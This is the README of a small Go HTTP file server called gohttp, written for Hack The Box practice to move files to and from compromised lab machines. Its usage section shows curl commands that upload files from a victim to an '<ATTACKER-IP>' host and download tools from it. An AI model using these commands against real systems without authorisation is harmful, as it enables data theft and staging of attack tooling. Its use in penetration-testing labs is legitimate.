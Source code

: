 # gohttp
![build](https://github.com/hebelsan/gohttp/actions/workflows/build.yml/badge.svg)  
While playing on *hackthebox.com* I was missing the capability to upload files from the victims machines back to my machine with Python SimpleHTTPServer.  
Therefore I wrote **gohttp** which supports both uploading and downloading files just by using the go standard library.

https://github.com/hebelsan/gohttp/actions/workflows/build.yml

## Installation
### go install
```bash
go install github.com/hebelsan/gohttp
./gohttp
```
### docker
```bash
docker pull ghcr.io/hebelsan/gohttp:latest
docker run --rm -v $(pwd):/mount -p 80:80 ghcr.io/hebelsan/gohttp
```
### manual
```bash
git clone https://github.com/hebelsan/gohttp
go run main.go
```

## Usage
All the files that should be served must be inside the directory where `gohttp` is executed.

###  Download a file from your attack device:
```bash
curl -O http://<ATTACKER-IP>/<FILENAME>
```

###  Upload a file back to your attack device as multipart
```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

###  Multiple file upload supported, just add more -F 'file=@<FILENAME>'
```bash
curl -F 'file=@<FILE1>' -F 'file=@<FILE2>' http://<ATTACKER-IP>/
```

###  Upload using raw body and filename header
```bash
curl -H "filename: test.txt" --data "this is raw data" http://<ATTACKER-IP>/
```

## Configuration

### Files root path
Per default every file is transferred from and to the current working directory.  
To change this behaviour:
```bash
export FILES_ROOT=/tmp
```

### Authentication
If you are scared that somebody else in your network 
either get's access to your files or uploads random
files without your permission set:
```bash
export AUTH=API-KEY
```
This will generate a new api key on startup and after each request.  
The key is printed to the console and has to be passed 
as `X-API-KEY` header:
```bash
curl -H "X-API-KEY: F94CE8F8-2E28-7806-94A4-8DF3FB722814" -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

### Port
Per default port 80 is used. To change it:
```bash
export PORT=4444
```
